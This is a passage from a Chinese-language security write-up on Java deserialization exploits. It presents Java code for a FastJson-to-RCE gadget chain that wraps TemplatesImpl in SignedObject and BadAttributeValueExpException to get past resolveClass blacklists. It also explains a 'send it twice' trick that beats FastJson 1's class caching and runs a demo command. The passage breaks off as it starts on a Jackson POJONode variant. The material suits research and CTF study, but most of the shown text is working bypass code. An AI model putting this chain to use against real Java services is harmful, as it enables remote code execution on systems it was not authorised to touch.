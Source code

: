 ```java
    /*
    bypass fastjson resolveClass with Reference
    bypass self defined resolveClass with SignedObject
    fastjson 2
    Notes: change fastjson to version 2
     */
    public static Object toString2RCE_BypassWithSignedObject(String cmd) throws Exception {
        TemplatesImpl templates = GTemplates.getEvilTemplates(cmd);
        JSONObject jsonObject = toString2Getter(templates);

        BadAttributeValueExpException bd = GBadAttributeValueExpException.deserialize2ToString(jsonObject);
        HashMap hashMap = new HashMap();
        hashMap.put(templates,bd);

        SignedObject signedObject = GSignedObject.getter2Deserialize(hashMap);
        JSONObject jsonObject1 = toString2Getter(signedObject);
        BadAttributeValueExpException bd1 = GBadAttributeValueExpException.deserialize2ToString(jsonObject1);

        return bd1;
    }
```
注意：FastJson 1 要求反序列化的类需要具备无参构造函数，由于 SignedObject 不存在无参构造函数，利用时会报如下的错误：
```bash
Exception in thread "main" com.alibaba.fastjson.JSONException: default constructor not found. class java.security.SignedObject
	at com.alibaba.fastjson.util.JavaBeanInfo.build(JavaBeanInfo.java:574)
	at com.alibaba.fastjson.util.JavaBeanInfo.build(JavaBeanInfo.java:218)
	at com.alibaba.fastjson.parser.ParserConfig.checkAutoType(ParserConfig.java:1531)
	at com.alibaba.fastjson.JSONObject$SecureObjectInputStream.resolveClass(JSONObject.java:597)
```
FastJson 2 版本下可以正常反序列化。

翻阅资料时发现了解决这个报错的办法，可参考文章：[Fastjson 结合 jdk 原生反序列化的利用手法 ( Aliyun CTF ) - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/network/369855.html)

当多次进行反序列化时，FastJson 会将上一次没有成功的类缓存起来，之后的反序列化就不会再次产生上面的错误，所以只需要多打一次即可。

```java
    public static void main(String[] args) throws Exception {
        Object o = toString2RCE_BypassWithSignedObject("mate-calc");

        try {
            testBlackList(o);
        } catch (Exception e){
            ;
        }

        try {
            testBlackList(o);
        } catch (Exception e){
            ;
        }
    }
```
# 结合 JaskSon 绕过 resolveClass
## Jackson 中的原生反序列化 gadget
与 FastJson 中的 JSONArray/JSONObject 反序列化可以调用任意 getter 方法类似，Jackson 中可以**利用 POJONode 来调用任意 getter 方法**。具体利用链如下：
